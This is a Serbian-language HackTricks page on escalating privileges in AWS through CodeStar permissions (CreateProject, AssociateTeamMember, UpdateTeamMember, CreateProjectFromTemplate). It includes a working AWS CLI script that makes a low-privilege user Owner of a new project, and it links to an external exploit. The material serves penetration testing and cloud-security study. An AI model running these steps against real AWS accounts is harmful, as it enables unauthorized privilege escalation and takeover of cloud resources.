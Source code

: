 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

Možete pronaći više informacija o codestar-u u:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

Sa ovim dozvolama možete **zloupotrebiti codestar IAM ulogu** da izvršite **arbitrarne radnje** putem **cloudformation šablona**. Proverite sledeću stranicu:

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Ova tehnika koristi `codestar:CreateProject` za kreiranje codestar projekta, i `codestar:AssociateTeamMember` da učini IAM korisnika **vlasnikom** novog CodeStar **projekta**, što će im omogućiti **novu politiku sa nekoliko dodatnih dozvola**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Ako ste već **član projekta**, možete koristiti dozvolu **`codestar:UpdateTeamMember`** da **ažurirate svoju ulogu** na vlasnika umesto `codestar:AssociateTeamMember`.

**Potencijalni uticaj:** Privesc na generisanu codestar politiku. Primer te politike možete pronaći u:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **Kreirajte novi projekat:**
- Iskoristite akciju **`codestar:CreateProjectFromTemplate`** da započnete kreiranje novog projekta.
- Nakon uspešnog kreiranja, pristup se automatski dodeljuje za **`cloudformation:UpdateStack`**.
- Ovaj pristup se posebno odnosi na stog povezan sa `CodeStarWorker-<generic project name>-CloudFormation` IAM ulogom.
2. **Ažurirajte ciljni stog:**
- Sa dodeljenim CloudFormation dozvolama, nastavite da ažurirate određeni stog.
- Ime stoga će obično odgovarati jednom od dva obrasca:
- `awscodestar-<generic project name>-infrastructure`
- `awscodestar-<generic project name>-lambda`
- Tačno ime zavisi od odabranog šablona (referišući se na primer skripte za eksploataciju).
3. **Pristup i dozvole:**
- Nakon ažuriranja, dobijate mogućnosti dodeljene **CloudFormation IAM ulozi** povezanoj sa stogom.
- Napomena: Ovo ne pruža inherentno pune administratorske privilegije. Dodatni pogrešno konfigurisani resursi unutar okruženja mogu biti potrebni za dalju eskalaciju privilegija.

Za više informacija proverite originalno istraživanje: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Eksploataciju možete pronaći na [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Potencijalni uticaj:** Privesc na cloudformation IAM ulogu.

{{#include ../../../../banners/hacktricks-training.md}}
